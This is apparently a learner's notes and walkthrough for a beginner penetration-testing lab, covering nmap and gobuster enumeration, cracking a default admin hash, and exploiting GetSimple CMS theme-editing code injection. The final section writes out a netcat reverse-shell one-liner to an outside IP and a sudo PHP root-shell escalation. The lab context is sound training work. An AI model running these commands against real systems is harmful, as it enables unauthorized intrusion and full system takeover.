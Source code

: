 # Knowledge Check Notes and Tips

## Key Steps to Attack Your First Box

### 1. **Enumeration and Scanning**

- **Nmap Scans:**
    - Perform a quick scan to identify open ports:
        
        bash
        
        Copy code
        
        `nmap -sV --open -oA initial_scan <target_IP>`
        
    - Follow up with a full TCP port scan:
        
        bash
        
        Copy code
        
        `nmap -p- --open -oA full_scan <target_IP>`
        
- **Key Enumeration:**
    - Investigate each open port to identify running services.
    - Use service-specific tools for enumeration (e.g., `whatweb` for web applications, `Gobuster` for hidden files/directories).

### 2. **Web Footprinting**

- Tools:
    - `whatweb`: To identify web technologies in use.
    - `Gobuster`: To enumerate hidden files and directories.
- Steps:
    - Analyze the web application and source code for comments, directories, or credentials.
    - Use tools like `curl` or a browser to inspect the application's behavior.

### 3. **Exploitation**

- **Technology Identification:**
    - Identify software and versions running on the target.
    - Use tools like `Searchsploit` or Google to find public exploits.
- **Foothold:**
    - Explore both Metasploit and manual methods to gain initial access.
    - Example:
        
        bash
        
        Copy code
        
        `searchsploit <software_name>`
        
- **Reverse Shell:**
    - Craft a reverse shell payload and execute it.
    - Use Python3 to upgrade to a pseudo TTY:
        
        bash
        
        Copy code
        
        `python3 -c 'import pty; pty.spawn("/bin/bash")'`
        

### 4. **Privilege Escalation**

- Tools:
    - `LinEnum` or `LinPEAS`: Automates enumeration for privilege escalation.
    - Manual inspection of system files and configurations.
- Common Techniques:
    - Exploiting world-writable files or misconfigured `sudo` permissions.
    - Analyzing running processes for vulnerable services or cleartext credentials.

### 5. **Organizing Data**

- Document findings meticulously during enumeration and exploitation.
- Maintain notes on discovered vulnerabilities, credentials, and potential attack paths.

### 6. **Root Access**

- Leverage identified misconfigurations or vulnerabilities to escalate privileges.
- Document the steps to ensure repeatability.

### 7. **Post-Exploitation**

- Verify the root-level access.
- Extract the flags (user and root) as part of your learning exercise.

---

## Two Foothold and Escalation Methods

1. **Manual Process:**
    
    - Perform enumeration and exploitation using tools and scripts manually.
    - Understand each step to gain insight into the attack flow.
2. **Metasploit:**
    
    - Use pre-built modules for exploitation.
    - Explore the configuration and payload options within Metasploit.

---

## General Tips

1. **Think Iteratively:**
    - Enumeration is not a one-time process. Revisit earlier steps as new information emerges.
2. **Use Helper Scripts:**
    - Tools like LinEnum and LinPEAS streamline privilege escalation analysis.
3. **Stay Organized:**
    - Keep notes on findings, attempts, and results to avoid duplication.
4. **Community Resources:**
    - Leverage forums and Discord for non-spoiler guidance if stuck.
5. **Practice Both Methods:**
    - Gain experience with both manual and automated exploitation for a comprehensive skillset.
6. **Learn from Failures:**
    - Analyze what didn’t work and refine your techniques.

---

### Reminder

- Have fun, keep learning, and don’t hesitate to think creatively. Each box is a learning opportunity, and the journey matters as much as the result!


---
# Questions:
1) Spawn the target, gain a foothold and submit the contents of the user.txt flag.
This is where we are using all our knowledge, firstly we start the nmap scan, and visit the website.
- Since this didn't leak anything good, we move onto gobuster, this reveals the following site: `admin`
We can now see the we have a folder:
- `/data/users/admin.xml`
Here we see the value: `d033e22ae348aeb5660fc2140aec35850c4da997`, if we google it, it comes up with a SHA1 dehasher so we get the password: admin
- Now we have the credentials `admin:admin`
Now that we are in, we go to the folder `support`, since this has an exclamation mark, and we love those.
- We can see that GetSimple is on version 3.3.15
If we google, we can see that there is a vulnerability regarding: `theme-edit.php file`, [here](https://nvd.nist.gov/vuln/detail/CVE-2019-11231).
We can go into:
Theme -> Edit Components
- Everthing that we type here, get's displayed on the front page
We can now try different commands inside php code (since we know that it runs php).
- We end up with: `cat /home/mrb3n/user.txt` inside the system call in php.



2) After obtaining a foothold on the target, escalate privileges to root and submit the contents of the root.txt flag.
Since we just can't do it with code execution in the component, we are setting up a reverse shell with netcat, and the php oneliner:
`"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8082 >/tmp/f"` inside the system php tag.

Next we can upgrade our terminal:
`-c 'import pty; pty.spawn("/bin/bash")'` with python3.

Now we need to download the `LinEnum.sh` on the target machine, chmod it and run it
We see that we have possible sudo pwnage: `/usr/bin/php`
Now we run the following:
```bash
CMD="/bin/sh"
sudo /usr/bin/php -r "system('$CMD');"
```
We then type `whoami` and see that we are root, we can now find the */root/root.txt*.

